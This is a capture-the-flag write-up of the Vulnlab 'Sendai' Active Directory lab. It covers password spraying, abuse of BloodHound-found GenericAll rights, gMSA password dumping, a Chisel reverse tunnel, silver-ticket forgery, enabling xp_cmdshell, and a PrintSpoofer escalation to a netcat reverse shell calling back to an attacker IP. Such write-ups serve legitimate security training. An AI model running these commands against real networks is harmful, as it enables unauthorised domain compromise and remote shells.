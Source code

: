 ```yaml
---
title: Vulnlab Standalone - Sendai
date: 2024-03-21
categories: [vulnlab]
tags: [AD]
pin: false
---
```


## Vulnlab Standlone - Sendai
Sendai is a medium-difficulty standalone challenge that was initially created as a hiring challenge for senior penetration testers and red teamers by XCT. The machine offers two user paths and two root paths, so feel free to explore. I gained initial access using weak credentials, then managed to escalate privileges to a gMSA account, which ultimately gave me access to the MSSQL service account. This allowed me to craft a silver ticket for the 'sa' or Administrator database user. With this access, I was able to enable xp_cmdshell and abuse SeImpersonate privileges using PrintSpoofer to gain a SYSTEM shell. 
![_install](/assets/img/VL-Sendai/sendai.png)

# Initial Access
Starting off, I added the following entries to the /etc/hosts file:
```
10.10.64.43 sendai.vl
10.10.64.43 dc.sendai.vl
```

Started of with an initial nmap scan which revealed the following information:
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-14 18:08:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
Using smbclient I listed the shares and checked if there any shares which are open for unauthenticated use:
```
smbclient -L \\\\DC.sendai.vl\\
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        config          Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        sendai          Disk      company share
        SYSVOL          Disk      Logon server share
        Users           Disk
```
Upon checking the Sendai share I found a txt file mentioning that a penetration test discovered numerous weak passwords and recommending changes as soon as possible. Also in the transfers folder, I found the UserProfiles for a few users within the domain:
```
 smb: \transfer\> ls
  .                                   D        0  Tue Jul 11 15:00:20 2023
  ..                                  D        0  Tue Jul 18 19:31:04 2023
  anthony.smith                       D        0  Tue Jul 11 14:59:50 2023
  clifford.davey                      D        0  Tue Jul 11 15:00:06 2023
  elliot.yates                        D        0  Tue Jul 11 14:59:26 2023
  lisa.williams                       D        0  Tue Jul 11 14:59:34 2023
  susan.harper                        D        0  Tue Jul 11 14:59:39 2023
  temp                                D        0  Tue Jul 11 15:00:16 2023
  thomas.powell                       D        0  Tue Jul 11 14:59:45 2023
```
I saved the usernames to a file called users.txt and tried common passwords such as Sendai01, Summer2024, etc. This method allowed me to recover the password for the user lisa.williams:
```
SMB         10.10.64.43     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.43     445    DC               [-] sendai.vl\lisa.williams:[REDACTED] STATUS_PASSWORD_MUST_CHANGE
```
# Getting access to mgtsvc$
I reset the password for the user with the smbpasswd tool:
```
smbpasswd -U lisa.williams -r sendai.vl
```
Now that we have valid credentials I ran the remote python bloodhound ingestor to enumerate the environment:
```
bloodhound.py --zip -c All -d sendai.vl -u lisa.williams -p P@ssw0rd -dc DC.sendai.vl -ns 10.10.98.198
```
Inspecting the Bloodhound output and further enumerating the domain revealed the following path:
- Lisa.willams has GenericAll on the ADMSVC group
- The ADMSVC group can read the gMSA password of the mgtsvc$ user'

We can abuse this by adding the lisa.williams user to the ADMSVC group using pth-net:
```
pth-net rpc group addmem "admsvc" lisa.williams -U sendai.vl/lisa.williams -S 10.10.64.43 
```
We can exploit this by adding the lisa.williams user to the ADMSVC group using pth-net:
```
gMSADumper.py -u 'lisa.williams' -p 'P@ssw0rd' -d 'sendai.vl' 
```
Using evil-winrm we can get a shell on the target:
```
evil-winrm -i 10.10.98.198 -u 'mgtsvc$' -H [REDACTED]
```
# Crafting silver tickets
Now that we have initial access on the DC I enumerated the system a bit. I found that in the C:\config folder there is a file called .sqlconfig which contains the password for the sqlsvc user. Since this user is the service account for the MSSQL service we can forge a silver ticket for a privileged user to escalate privileges. To do this I first created a proxy using chisel which allowes me to interact with the MSSQL service which is running locally. 
On the target machine:
```
cmd /c C:\temp\chisel.exe client [ATTACKER]:8001 R:1080:socks
```
On the attacker machine:
```
chisel server -p 8001 --reverse
```
Next I created a silver ticket using the ticketer.py tool from impacket for the Administrator and imported the kerberos ticket:
```
ticketer.py -spn MSSQL/dc.sendai.vl -domain-sid S-1-5-21-3085872742-570972823-736764132 -nthash [REDACTED] -dc-ip dc.sendai.vl Administrator -domain sendai.vl
export KRB5CCNAME=Administrator.ccache
```
Using this ticket we connect over the proxy to the MSSQL service as Administrator:
```
proxychains -q mssqlclient.py dc.sendai.vl -k
```
Since we have administrative rights we can enable xp_cmdshell so we can execute command on the system:
```
sp_configure 'show advanced options', '1'
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

# Escalating to SYSTEM
Since we are the sqlsvc$ account we usually have SeImpersonate privileges which allows us to elevate to SYSTEM. We can confirm this by using:
```
whoami /privileged
```
This confirmed that we indeed have SeImpersonate privileges. Using Printspoofer and netcat I was able to get a reverse shell:
```
cmd /c C:\temp\PrintSpoofer.exe -c "c:\Temp\nc.exe 10.8.0.49 1337 -e cmd"
```
